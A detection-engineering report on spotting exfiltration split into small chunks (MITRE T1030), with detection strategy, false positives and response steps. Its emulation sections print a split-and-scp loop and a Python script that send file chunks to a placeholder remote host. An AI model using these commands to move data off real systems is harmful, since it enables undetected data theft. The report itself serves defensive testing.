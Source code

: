 # Alerting & Detection Strategy (ADS) Report: Data Transfer Size Limits

## Goal
The goal of this technique is to detect adversarial attempts to bypass security monitoring by limiting data transfer sizes during exfiltration activities. This method aims to identify when adversaries are splitting large files into smaller chunks to evade detection mechanisms that trigger on larger transfers.

## Categorization
- **MITRE ATT&CK Mapping:** T1030 - Data Transfer Size Limits
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows  
  [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1030)

## Strategy Abstract
The detection strategy leverages network traffic analysis to identify patterns indicative of small-file transfer methods. By monitoring data size and frequency over the network, this approach seeks out anomalies where a high number of small files are transferred within short periods. Data sources include network packet captures (PCAPs) and flow data from intrusion detection systems (IDS), focusing on repeated connections that fit the suspicious profile.

## Technical Context
Adversaries implement data transfer size limits by breaking down large datasets into smaller, less noticeable chunks to avoid triggering alerts based on file size thresholds. In real-world scenarios, they may use scripts or tools such as `scp`, `rsync`, or custom utilities to automate these transfers in a manner that mimics legitimate traffic.

### Adversary Emulation Details
- **Sample Commands:**
  - Using `scp`:  
    ```bash
    split --bytes=1M largefile.dat part_
    for file in part_*; do scp $file user@target:/destination/; done
    ```
  - Using Python script to automate the process:
    ```python
    import os

    def split_and_transfer(file_name, chunk_size, target):
        if not os.path.exists('parts'):
            os.mkdir('parts')
        
        # Split file
        os.system(f'split -b {chunk_size} {file_name} parts/')
        
        # Transfer each part
        for part in os.listdir('parts'):
            os.system(f'scp parts/{part} {target}')
            
    split_and_transfer('largefile.dat', '1M', 'user@target:/destination/')

## Blind Spots and Assumptions
- **Limitations:** The technique may not detect transfers that are optimally sized to mimic normal traffic patterns, especially in environments with high baseline data transfer activities.
- **Assumptions:** Assumes the network monitoring setup can capture granular details of file sizes and connection attempts.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate large-scale backup operations split into smaller parts for efficiency.
- Distributed computing tasks involving frequent small data exchanges, such as MapReduce jobs.
- Regular updates or patches downloaded in segments by legitimate software applications.

## Priority
**Severity:** High  
**Justification:** The use of small-file transfer techniques can enable adversaries to exfiltrate large amounts of sensitive data undetected. This tactic is critical in environments with high-value information assets, as it directly impacts data integrity and confidentiality.

## Validation (Adversary Emulation)
### Step-by-Step Instructions:

1. **Setup Test Environment:**
   - Establish a controlled network environment with monitoring tools like Wireshark for packet capture and Snort for IDS.
   
2. **Data Transfer Size Limits:**
   - Create a large file, `largefile.dat`, on the attacker machine.
   - Use the following command to split and transfer it:
     ```bash
     split --bytes=1M largefile.dat part_
     for file in part_*; do scp $file user@target:/destination/; done
     ```

3. **Network-Based Data Transfer in Small Chunks:**
   - Execute a Python script as shown above to automate the process of splitting and transferring data.

4. **Monitoring and Analysis:**
   - Capture network traffic during the test.
   - Analyze for multiple small file transfers originating from the same source over a short period.

## Response
When an alert is triggered by this strategy:
- Immediately investigate the source of the transfers to determine their legitimacy.
- Verify with system administrators or relevant personnel if any known legitimate operations match the pattern detected.
- If confirmed as malicious, isolate the involved endpoints and begin incident response procedures including forensic analysis and potential data recovery efforts.

## Additional Resources
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Network Monitoring Tools](https://www.wireshark.org/)  
  _Note: No additional specific resources available for this ADS._

This report provides a comprehensive framework to detect the use of data transfer size limits as part of adversarial exfiltration techniques. It outlines detection strategies, potential blind spots, and necessary response protocols to manage such threats effectively.